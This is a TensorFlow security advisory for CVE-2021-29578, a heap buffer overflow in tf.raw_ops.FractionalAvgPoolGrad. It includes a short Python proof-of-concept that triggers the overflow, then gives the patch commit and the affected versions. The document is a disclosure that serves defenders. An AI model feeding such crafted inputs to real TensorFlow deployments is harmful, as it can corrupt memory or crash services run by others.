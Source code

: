 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-067.md
## TFSA-2021-067: Heap buffer overflow in `FractionalAvgPoolGrad`

### CVE Number
CVE-2021-29578

### Impact
The implementation of `tf.raw_ops.FractionalAvgPoolGrad` is vulnerable to a heap
buffer overflow:

```python
import tensorflow as tf

orig_input_tensor_shape = tf.constant([1, 3, 2, 3], shape=[4], dtype=tf.int64)
out_backprop = tf.constant([2], shape=[1, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)


tf.raw_ops.FractionalAvgPoolGrad(
  orig_input_tensor_shape=orig_input_tensor_shape, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/dcba796a28364d6d7f003f6fe733d82726dda713/tensorflow/core/kernels/fractional_avg_pool_op.cc#L216)
fails to validate that the pooling sequence arguments have enough elements as
required by the `out_backprop` tensor shape.

### Patches
We have patched the issue in GitHub commit
[12c727cee857fa19be717f336943d95fca4ffe4f](https://github.com/tensorflow/tensorflow/commit/12c727cee857fa19be717f336943d95fca4ffe4f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
